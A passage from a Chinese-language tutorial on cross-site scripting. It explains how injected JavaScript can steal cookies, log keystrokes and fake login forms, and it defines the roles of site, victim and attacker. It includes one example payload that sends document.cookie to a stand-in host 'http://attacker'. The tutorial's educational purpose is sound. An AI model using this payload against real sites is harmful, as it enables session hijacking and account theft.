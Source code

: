 ### 什么是恶意脚本

首先要明确的是，在受害者的浏览器中执行脚本的能力算不上特别恶意，Javascript的执行环境受到严格限制并只有非常有限的权限访问用户的文件和操作系统。事实上，你现在就可以打开你浏览器的脚本控制台立刻执行任何你想执行的脚本，几乎不可能对你的电脑造成任何的伤害。

然而当你了解了以下几个事实之后脚本变得恶意的可能性就越来越明显了：

- Javascript有权访问一些用户的敏感信息，比如cookie
- Javascript能够通过XMLHttpRequest或者其他一些机制发送带有任何内容的HTTP请求到任何地址。
- Javascript能够通过DOM操作方法对当前页面的HTML做任意修改。

这些相关联的情况会引起非常严重的安全问题，这也是我们接下来要解释的。

### 恶意脚本的后果

这种在其他用户的浏览器中执行任意脚本的权限，赋予了攻击者有能力发动以下几类攻击

- Cookie窃取：攻击者能够通过`document.cookie`访问受害者与网站关联的cookie，然后传送到攻击者自己的服务器，接着从这些cookie中提取敏感信息，如Session ID。
- 记录用户行为（Keylogging）：攻击者可以使用 `addEventListener`方法注册用于监听键盘事件的回调函数，并且把所有用户的敲击行为发送到他自己的服务器，这些敲击行为可能记录着用户的敏感信息，比如密码和信用卡号码。
- 钓鱼网站（Phishing）：攻击者可以通过修改DOM在页面上插入一个假的登陆框，也可以把表单的`action`属性指向他自己的服务器地址，然后欺骗用户提交自己的敏感信息。

尽管这些攻击类型大不相同，但都有一条重要的相似之处：因为攻击者把代码注入进的页面是由网站的，所以恶意脚本都是在网站的上下文环境中执行，这就意味着恶意代码被当作网站提供的其他正常脚本一样对待：它有权访问受害者与网站关联的数据（比如cookie），可此时浏览器地址栏的的主机名（hostname）仍然是原网站的。总而言之，恶意脚本被浏览器认为是网站合法的一部分，允许它做任何事情。

这些事实都在强调一个关键性问题：

>如果攻击者能够借助你的网站在另一个用户的浏览器中执行任意脚本，那么你网站的安全性已经无从谈起了。

为了能够直奔重点，本篇教程中的一些例子都略去了恶意脚本的具体代码细节，只显示`<script>...</script>`。这表示这段代码是攻击者注入的代码，不会再深究代码具体的执行内容是什么。

## 第二部分：XSS攻击

### XSS攻击中的各种角色

在我们具体解释XSS攻击是如何运作之前，我们需要定义一下XSS攻击涉及的角色。总的来说，XSS攻击涉及三类角色：**网站**、**受害者**、和**攻击者**

- **网站**响应用户发出的请求并返回网页。在我们后面的例子中，网站的地址是`http://webiste/`
	- **网站数据库**用于存储显示在页面上的的用户输入的内容。
- **受害者**是一位从浏览器向网站请求页面的普通用户
- **攻击者**是一位打算利用网站XSS漏洞向受害者发动攻击的恶意用户
	- **攻击者服务器**是由攻击者控制服务器，专用于窃取受害者的敏感信息。在我们的例子中，它的地址是：`http://attacker`

### 一个攻击场景示例

在这个例子中，我们假设攻击者的终极目标是利用网站的XSS漏洞窃取受害者的cookie。这可以通过设法让受害者的浏览器解析下面HTML代码来实现：

{% highlight html %}
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
{% endhighlight %}

这段脚本将用户的浏览器定向到一个完全不同的URL，也就是触发向攻击者的服务器发送一次HTTP请求。这串URL把受害者的cookie作为查询参数，当攻击者服务器收到该请求后就能从中把cookie提取出来。一旦攻击者获取到cookie，他就能借助cookie扮演受害者并且发动更多的攻击。
